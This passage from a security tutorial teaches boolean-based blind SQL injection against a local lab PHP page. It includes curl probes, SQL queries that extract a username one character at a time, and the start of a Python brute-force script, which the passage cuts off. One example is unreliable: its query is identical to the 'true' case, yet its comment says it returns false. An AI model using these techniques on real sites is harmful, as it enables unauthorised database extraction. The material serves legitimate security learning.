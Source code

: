 In that script the only change will be the response code, it will be 200 if username exists and if not, 404. Notice that the quotation marks around the id in the query have disappeared, it may be useful for making SQL injections without the need of inserting a quotation mark in the url query.

----
> Therefore, not all SQL injection starts with a quotation mark and not all SQL injection needs ending comments
----

If we want to try a blind SQL injection, we can get the response headers to check if there are changes in requests:

```shell
# With the last .php script this will return us the status code 404, because that user does not exist in database
curl -s -I -X GET "http://localhost/searchusers.php?id=8"

# With the last .php script this will return us the status code 200, because that user exists in database
curl -s -I -X GET "http://localhost/searchusers.php?id=1"
```

When we want to try blind queries, we may try with *Boolean-based blind SQL Injection*:

```mysql
# In this case, the first username is 'admin'. The first letter of 'admin' is 'a', so this query will return us '1' (true)
select(select substring(username,1,1) from users where id = 1) = 'a';

# In this case, the first username is 'admin'. The first letter of 'admin' is 'a', so this query will return us '0' (false)
select(select substring(username,1,1) from users where id = 1) = 'a';

# Quotation marks will give us error in SQL, so we need to convert it to ascii code ('a' is 97). Below code will work and will return us '1' (true)
select(select ascii(substring(username,1,1)) from users where id = 1) = 97;
```

We can do a Python script for applying brute-force with *Boolean-based blind SQL Injection*, replacing the substring start position and the letter to compare:

```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Datos extraidos")
```